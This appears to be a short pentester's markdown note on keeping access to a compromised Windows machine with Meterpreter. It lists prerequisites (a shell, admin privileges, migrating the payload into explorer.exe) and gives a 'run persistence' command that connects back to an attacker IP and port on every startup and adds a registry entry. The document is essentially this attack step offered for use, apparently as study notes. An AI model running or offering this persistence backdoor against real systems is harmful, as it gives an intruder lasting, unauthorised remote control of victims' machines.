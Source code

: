 # Persistence via Meterpreter

### Checklists

We should have

* Shell on the target machine
* Priviledges escalated to Admin
* Migration of our payload to a stable process (e.g explorer.exe)



### Steps

In the Meterpreter session

`run persistence -X -i 10 -p 5555 IP`

* X means run on system startup
* i means the connection attempt interval
* p means port to connect to and the ip

It makes an entry in the registry

